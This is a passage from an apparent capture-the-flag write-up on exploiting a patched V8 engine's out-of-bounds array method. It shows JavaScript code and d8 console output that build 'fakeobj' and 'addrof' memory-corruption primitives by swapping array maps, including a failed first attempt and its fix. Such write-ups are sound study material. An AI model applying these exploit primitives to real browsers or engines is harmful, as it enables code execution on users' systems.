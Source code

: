 ```
[+] float_arr_map @ 0x18cd45
[+] obj_arr_map @ 0x18cdc5
[+] test @ 0x1985f1
DebugPrint: 0x14cf001985f1: [String] in OldSpace: #cc
```

`fakeobj` is the reverse of `addrof`:
```js
function fakeobj(addr) {
  float_arr.oob(itof(float_arr_map));
  obj_arr[0] = itof(addr);
  // restore map
  float_arr.oob(itof(obj_arr_map));
  return obj_arr[0];
}
```

### Failed to implement fakeobj

The above `fakeobj` would failed because our value cant be written to `obj_arr[0]`. 
```
d8> float_arr.oob(itof(float_arr_map))
undefined
d8> obj_arr[0] = itof(fake_holder_elem + 8n)
4.729853e-318
d8> obj_arr[0]
3.357313519157631e-308
d8> obj_arr[0] = 4.729853e-318
4.729853e-318
d8> obj_arr[0]   
3.357313519524451e-308
```

It seems that faking the map isn't sufficient to changes the assignment behavior. Looking at Faith's writeup again, we can see that he only swapped the map for element reading.

To address this, I introduced two additional float arrays. This ensures that there will be no incorrect assignments.
```js
// ...
gc();
var float_arr = [1.1];
gc();
var obj_arr = [{}];
gc();
var float_arr2 = [1.1];
gc();
var float_arr3 = [1.1];
gc();
// ...
function fakeobj(addr) {
  float_arr3[0] = itof(addr);
  float_arr2.oob(itof(obj_arr_map));
  let obj = float_arr3[0];
  // restore map
  float_arr2.oob(itof(float_arr_map));
  return obj;
}
```

